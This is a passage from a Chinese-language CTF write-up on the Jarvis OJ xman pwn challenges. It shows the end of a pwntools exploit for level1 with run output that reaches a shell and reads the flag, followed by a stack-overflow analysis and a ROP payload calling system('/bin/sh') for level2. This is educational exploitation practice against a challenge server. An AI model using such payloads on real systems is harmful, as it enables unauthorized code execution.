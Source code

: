 ``` python
        io = process(target_elf)
        gdb.attach(io, '''b *0x080484AC
        #b *0x0000000000400DC8''')
    else:
        io = remote(target_host, target_port)
    
    exploit()

```

最后拿到flag：
``` bash
trump@ubuntu:~/Desktop/xman$ python temp_exp.py 
[*] '/home/trump/Desktop/xman/level1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to pwn2.jarvisoj.com on port 9877: Done
0xff97af40
[*] Switching to interactive mode

$ ls
flag
level1
$ cat flag
CTF{82c2aa534a9dede9c3a0045d0fec8617}
$  

```

## xman-level 2

是一个栈溢出的题目，用IDA看很明显的溢出，可以使用栈溢出：
``` c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u); //栈溢出
}
```
checsec一下，发现有NX保护
``` bash
trump@ubuntu:~/Desktop/xman$ checksec level2
[*] '/home/trump/Desktop/xman/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
trump@ubuntu:~/Desktop/xman$ 
```
所以不能直接在stack上布置shellcode，需要使用ROP技术调到类似于system("/bin/sh")这样的地方执行，IDA中`ALT+7`看一下导入表，有system的地址，同时shift+F12查看string，发现有binsh的字符串，故直接利用就可以。
``` python
payload   = 'A' * 0x88
payload  += 'A' * 0x4 
payload  += p32(system_addr) # ret addr
payload  += 'A' * 0x4        # ebp --> push ebp 
payload  += p32(binsh_addr)  # binsh
```